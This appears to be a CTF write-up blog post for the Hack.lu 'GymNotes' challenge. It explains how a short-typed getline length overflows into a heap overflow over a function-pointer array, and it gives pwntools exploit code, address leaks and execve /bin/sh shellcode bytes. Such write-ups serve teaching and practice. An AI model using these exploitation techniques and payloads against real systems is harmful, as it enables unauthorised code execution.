




Nothing like staying up until 3am solving CTF challenges am I right? HackLu CTF put on by FluxFingers was a really cool CTF and I managed to solve GymNotes. Below are
my ramblings. 

# GymNotes | 54 Solves
>>Hey Pentester! We hired a professional developer to code our app GymNotes and we were interested in you checking whether it has vulnerabilites or not. It should be hard to find a bug, since our developer has contributed to xz for a long time. 

At first I thought this was going to be exploiting an `xz` vulnerability, but no, just a funny joke. We're given a zip file to download which contains the `gym_notes` program, source, a Makefile, and a Dockerfile. 

Running `checksec` we can see that we are dealing with full protections. 


Let's have a look at the source. At first glance it looks like your typical notes challenge, but with some interesting stuff going on. 

First, we've got some global variables defined that'll be relevant later. 
```c
#define MAX_NOTE_SIZE 1000

struct Note {
  char data[MAX_NOTE_SIZE];
};

struct Note *notes;
static short lastNoteIndex = 0;
```

Looks like we've got a maximum size defined for our notes, a struct to store them, and another struct to store the pointers to those notes, along with a way to index those notes. 

```c
void showNote() {
  printf("Choose a note u want to inspect \n", lastNoteIndex);
  printf("> \n");

  short option;
  scanf("%hd", &option);
  getchar();


  option++;
  if(option < 0 || option > lastNoteIndex) {
    printf("Note not found..\n");
    return;
  }

  printf("Note consists of: %s\n\n", notes[option].data);
}
```

The first function, `showNote()`, pretty much does exactly that. It allows us to specify a note index, does some checks on our input, then will index the `notes` struct and show us our note. Next, we'll look at the `addNote()` function. 

```c
void addNote() {
  char *line = NULL;
  size_t len = 0;
  short nread;

  if(lastNoteIndex > MAX_NOTE_SIZE) {
    printf("Max notes reached..");
    return;
  }

  printf("Write a note (max. %d characters)\n", MAX_NOTE_SIZE);
  printf("> \n");
  nread = getline(&line, &len, stdin);

  if(nread >= MAX_NOTE_SIZE) {
    printf("Too many characters, adding note failed..\n");
    return;
  }

  lastNoteIndex++;
  notes = realloc(notes, (lastNoteIndex+1)*sizeof(struct Note));
  strcpy(notes[lastNoteIndex].data, line);
  printf("Note added!\n");
}
```

We check if we have exceeded 1000 notes, then our input is taken in with `getline()`. If we send in too much we get yelled at, and then if not, `realloc` is called 
to resize the initial heap chunk (can see this in `main()` later), and finally our input is copied into the notes struct. See if you can spot the vuln...

The `editNote()` function is pretty much the same, it just lets us edit a note at a given index. 

```c
void editNote() {
  printf("Choose a note u want to edit\n");
  printf("> \n");

  short option;
  scanf("%hd", &option);
  getchar();

  option++;
  if(option < 0 || option > lastNoteIndex) {
    printf("Note not found..\n");
    return;
  }

  printf("What would u like to replace it with?\n");

  char *line = NULL;
  size_t len = 0;
  short nread;

  printf("Write a note (max. %d characters)\n", MAX_NOTE_SIZE);
  printf("> \n");
  nread = getline(&line, &len, stdin);

  if(nread >= MAX_NOTE_SIZE) {
    printf("Too many characters, adding note failed..\n");
    return;
  }

  strcpy(notes[option].data, line);
  printf("Note edited!\n");
}
```

We'll skip the `delNote()` function for now, but lets have a look at this goofy thing. 

```c
void (**optionFuncs)();
int optionFuncsSize;
void allowFunctionsExec(int callFromMain, int mode) {
  if(mode % 2 == 0) {
    if (mprotect(optionFuncs, optionFuncsSize, PROT_READ | PROT_WRITE | PROT_EXEC) == -1) {
      perror("mprotect");
      exit(1);
    }
    else {
      printf("mprotect at 0x%lx..\n", optionFuncs);
      return;
    }

    if(mode % 2 != 0 || !callFromMain)
      exit(1);
  }
}
```
To start, it looks like we've got some function pointers defined. The function, `allowFunctionsExec`, will check to see if the `mode` variable is even, and if it is, will `mprotect` the region occupied by the `optionFuncs` function pointers. Crucially, it will make it executable. We also get an info leak to see where this location is within the program. Interesting...

Let's look at the main function. 

```c
int main(int argc, char *argv[]) {
  setvbuf(stdin, NULL, _IONBF, 0);
  setvbuf(stdout, NULL, _IONBF, 0);
  notes = malloc(sizeof(struct Note));
  strcpy(notes[0].data, "Example Note\n");

 optionFuncsSize = sysconf(_SC_PAGESIZE);
  if (posix_memalign((void**)&optionFuncs, optionFuncsSize, optionFuncsSize) != 0) {
    fprintf(stderr, "Memory allocation failed\n");
    exit(1);
  }

  optionFuncs[0] = showNote;
  optionFuncs[1] = addNote;
  optionFuncs[2] = delNote;
  optionFuncs[3] = editNote;

  allowFunctionsExec(1, 1);

  printf("Welcome to GymNotes!\n");
  short option;
  while(1) {
    printf("1. Show Note\n");
    printf("2. Add Note\n");
    printf("3. Delete Note\n");
    printf("4. Edit Note\n");
    printf("> \n");
    //fflush(stdout);

    scanf("%hd", &option);
    getchar();
    if (option >= 1 && option <= 4) {
      (*optionFuncs[option - 1])();
    } else {
      printf("Invalid option\n");
    }
  }

  return 0;
}
```
Notably, we malloc the first "note", which is then used by realloc in the `addNote()` function above and copy some data into it. Then, `posix_memalign` is used to 
allocate some memory (one page) where the function pointers will be placed. Then, those pointers are placed there; the `showNote`, `addNote`, `delNote` and `editNote`
functions. The `allowFunctionsExec` is called, but we know from above that it will not do anything as the `mode` variable is odd. Finally we enter our menu and our 
`optionFuncs` function pointers are dereferenced and called depending on the choice we make. 

And now for the last of the functions, the `delNote` function. It makes sense to see this one last after looking at everything else. 

```c
void delNote() {
  printf("Function 0x%lx isn't implemented yet..\n", (void*)delNote);
}
```

Super short, and the only thing that it does is give us a leak so that we can see where the `delNote` function is within the binary. So, we can find the 
base address. 

Now, what to do with all this info? We can infer that since there is a function that will mark the region of memory where the function pointers are executable, we 
must find a way to call this function, pass in an even `mode` argument, and then store some shellcode in the area. But how do we do that? 

Enter, this section of code present in `addNote` and `editNote` with some gaps omitted for brevity. 

```c
char *line = NULL;
size_t len = 0;
short nread;

nread = getline(&line, &len, stdin);

if(nread >= MAX_NOTE_SIZE) {
    printf("Too many characters, adding note failed..\n");
    return;
  }
```
`getline` will read in an arbitrary amount of bytes, then use malloc to store those bytes somewhere on the heap, and return the number of bytes read in. However, you might notice that the the variable `nread` is a short. Which means that it can only represent numbers from -32767 to 32767. Sooo.... what if we send in over 32767 characters, get the `nread` variable to overflow (become negative), and then we get pass the `nread >= MAX_NOTE_SIZE` check? This would give us a massive heap overflow. Shoutout to my teammates `@pawnlord` and `@athryx` for first noticing the issue. 

Now, do you remember what was also on the heap? Ahh yes, that array of function pointers...

So what if we overflowed so much on the heap that we could write into this array of function pointers? That is exactly what we are going to do. 

Here we have some python code... what we'll do is send in 32768 bytes (one more than 32767), set a breakpoint within gdb at the point where the array function pointers are dereferenced,
and attempt to call the `showNote` function to see how our cyclic pattern has affected the array. 

```python
def add(msg):
    p.sendline(b'2')
    p.sendline(msg)

cyc = cyclic(32768)
add(cyc)
p.sendline(b'1')
```
Here is the result:


So, we can see that we've overflown into the the `optionFuncs` memory space and our program segfaults when it tries to call part of our cyclic pattern. Using `cyclic -l` in gdb we know that the `optionFuncs` array starts at an offset of 2424 characters.  Now that we know this works, 
the next step will be to try and call `allowFunctionsExec` so that we can mark that space as executable and stash some shellcode there. 

But first we need to know where the address of `allowFunctionsExec` is, so we can just use the `delNote` function and parse the leak. The ~~ugly~~ beautiful code for that is here.

```python
def delete():                                                                                              
    p.sendline(b'3')                                                                                       
    leaked = p.recv()                                                                                      
    leaked = p.recvline().split(b' ')                                                                      
    del_addr = leaked[1]                                                                                   
    del_addr = int(del_addr.decode(), 16)                                                                  
    return del_addr

base = delete() - 5798
print(f'elf base @ {hex(base)}')
elf.address = base
```

We also subtract `5798` from the address we leaked as this is the offset to the base address from the `delNote` function. 

Now we'll try and call `allowFunctionsExec`. Since we need the second argument to be even, this presents a tad bit of a challenge. It took me a while to find out how to make it so,
and embarrassingly, it is not that complicated. Basically whatever option you pass into `scanf` in the menu ends up in `rsi` after `scanf` returns. In other words, we have to 
make it so that the `allowFunctionsExec` function pointer is either at the 2nd or 4th indicie in the array of function pointers and then it'll do its mprotect thing. 

The layout of the array after our overflow will look like this

```c
optionFuncs[0] = "aaaaaaaa";
optionFuncs[1] = allowFunctionExec;
optionFuncs[2] = 0;
optionFuncs[3] = 0;
```

Then we can send in `2` when prompted for an option and we'll basically call `allowFunctionExec`. Here is some python code.

```python
payload = b'a' * 2432
payload += p64(allow_funcs)
payload += b'c' * (32768 - (8 + 2432))
add(payload)
p.sendline(b'2')
print(p.recvuntil(b'mprotect at '))
mprotect = int(p.recv().split(b'\n')[0].strip(b'..'), 16)
print(hex(mprotect))
```

In addition to calling `allowFunctionExec`, we also get a leak so we know where the beginning of the mprotected section of `optionFuncs` is. 



Here is a lil sample of calling `allowFunctionExec`.  

What next? Well, we can utilize the same vuln in the `editNote` function such that we put shellcode in that array along with the `mprotect` pointer that was leaked. Then we 
can use one of the menu options to call the index where the mprotect pointer resides such that we can jump to that position and execute the shellcode. Here is what the array 
will look like with our exploit.

```c
optionFuncs[0] = shellcode;
optionFuncs[1] = shellcode;
optionFuncs[2] = shellcode;
optionFuncs[3] = mprotect ptr;
```

After we send in a payload to make the array look like the above pseudo code, we can use menu option `4` which will execute the mprotect pointer we sent in, and that will jump to the beginning of the optionFuncs array and execute our shellcode. Below is the python we'll use for this part of the exploit. 

```python
def edit(idx, msg):
    p.sendline(b'4')
    p.sendline(idx)
    p.sendline(msg)

shellcode =  b'\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05'
payload2 = b'b' * 2424
payload2 += b'\x61'
payload2 += shellcode
payload2 += p64(mprotect + 1)
payload2 += b'd' * (32768 - (2424 + len(shellcode) ))
edit(b'0', payload2)

p.sendline(b'4')
p.interactive()
```

Note that we had to do some finagling... The mprotect address ends with 3 zeros. This was causing some termination issues, I believe when the `strcpy` would copy the data into the buffer. So, I placed a dummy ascii character, `0x61`, and then the 23 bytes of shellcode. That takes up 3 indicies of the array. Then the final index, the mprotect pointer + 1 will point back to the start of the array + 1. 

Here's a shot in gdb right when we are calling the mprotect ptr with menu option `4`. The red rectangle is where the pointer is being called and the lilac rectangle is 
the memory layout around that pointer. You can see the ascii `\x61`, the shellcode, and the mprotect pointer laid out. 



And that should give us a shell! 

Twas a fun challenge and learned a bit as well! 